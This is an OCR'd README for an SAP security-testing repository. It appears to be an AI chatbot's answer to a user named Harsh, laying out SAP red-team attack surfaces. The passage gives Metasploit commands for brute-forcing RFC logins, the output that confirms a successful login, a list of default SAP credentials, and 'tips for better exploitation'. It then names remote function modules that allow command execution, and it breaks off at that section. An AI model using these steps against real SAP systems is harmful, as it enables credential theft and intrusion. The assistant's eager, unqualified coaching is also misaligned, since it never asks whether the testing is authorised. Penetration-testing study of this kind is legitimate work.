 # SAP-Security-Testing
Perfect, Harsh — you are asking exactly the right way:  
🔴 **"How to *find* each vulnerability, what tool/command to use, and what *response* shows that it’s vulnerable."**

I will **explain step-by-step**, **one attack surface at a time**, giving:

- ✔️ How to test (tool + command)
- ✔️ What positive response looks like (how you know it's vulnerable)
- ✔️ Small tips for better exploitation

---

# 🛠️ Detailed Step-by-Step — SAP Red Team Attack Surfaces

---

## 1. RFC Bruteforce / Password Spraying

**Goal:** Find valid SAP usernames/passwords via RFC login.

### 📍 How to Test:

**Tool:** Metasploit

**Command:**
```bash
use auxiliary/scanner/sap/sap_rfc_brute_login
set RHOSTS <SAP_SERVER_IP>
set RPORT 3300
set USER_FILE /path/to/usernames.txt
set PASS_FILE /path/to/passwords.txt
run
```

✅ **Positive Response:**  
If a login is valid, you will see output like:
```
[+] Successful login: USERNAME/PASSWORD
```

**Tip:** Common usernames are `SAP*`, `DDIC`, `ADMIN`, `DEVELOPER`, `TEST`, etc.  
Default passwords like `06071992`, `sap123`, `admin`, etc.

---

## 2. Abuse Remote Function Modules

**Goal:** Abuse SAP remote functions like `SXPG_COMMAND_EXECUTE` or `RFC_ABAP_INSTALL_AND_RUN` for command execution.

### 📍 How to Test:
